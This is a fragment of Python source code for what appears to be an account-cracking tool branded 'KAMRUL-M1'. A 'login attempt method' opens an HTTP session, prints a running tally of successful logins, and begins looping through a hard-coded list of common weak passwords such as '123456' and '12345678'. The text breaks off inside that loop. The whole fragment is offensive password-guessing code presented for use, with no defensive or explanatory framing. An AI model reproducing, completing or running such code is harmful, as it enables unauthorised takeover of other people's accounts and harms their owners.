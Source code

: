 Login attempt method A.
    """
    global loop
    session = requests.session()
    try:
        sys.stdout.write(f"\r\r\x1b[1;37m\x1b[38;5;196m+\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mKAMRUL-M1\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{loop}\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mOK\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{len(oks)}\x1b[38;5;196m)")
        sys.stdout.flush()
        for pw in ('123456', '1234567', '12345678', '123456789', '112233', '123123', '1234567890'):
